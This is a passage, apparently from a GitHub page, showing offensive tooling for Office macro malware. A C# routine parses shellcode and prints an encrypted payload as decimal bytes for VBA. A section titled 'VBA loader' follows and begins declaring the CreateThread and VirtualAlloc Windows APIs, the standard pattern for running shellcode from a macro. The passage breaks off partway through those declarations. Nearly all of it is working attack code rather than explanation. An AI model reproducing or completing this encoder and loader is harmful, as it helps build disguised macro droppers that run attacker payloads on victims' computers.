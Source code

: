                 // 🔹 Print in Visual Basic–style decimal format
                uint counter = 0;
                StringBuilder vbPayload = new StringBuilder(encoded.Length * 4);
                foreach (byte b in encoded)
                {
                    vbPayload.AppendFormat("{0:D}, ", b);
                    counter++;
                    if (counter % 50 == 0)
                    {
                        vbPayload.AppendFormat("_{0}", Environment.NewLine);
                    }
                }
    
                // Remove trailing comma and space if needed
                if (vbPayload.Length >= 2)
                {
                    vbPayload.Length -= 2;
                }
    
                Console.WriteLine("Encrypted Payload (VB-style):\n" + vbPayload.ToString());
            }
    
            // Helper: Parse shellcode string (e.g., "0xfc,0x48,0x83")
            static byte[] ParseShellcode(string input)
            {
                string[] parts = input.Split(new char[] { ',', ' ', '\n', '\r' }, StringSplitOptions.RemoveEmptyEntries);
                byte[] result = new byte[parts.Length];
    
                for (int i = 0; i < parts.Length; i++)
                {
                    result[i] = Convert.ToByte(parts[i].Replace("0x", ""), 16);
                }
    
                return result;
            }
        }
    }
    
    ```
    
3. VBA loader
    
    ```visual-basic
    ' --- Windows API Imports ---
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" ( _
        ByVal SecurityAttributes As Long, _
        ByVal StackSize As Long, _
        ByVal StartFunction As LongPtr, _
        ThreadParameter As LongPtr, _
        ByVal CreateFlags As Long, _
        ByRef ThreadId As Long) As LongPtr
    
    Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" ( _
        ByVal lpAddress As LongPtr, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr
    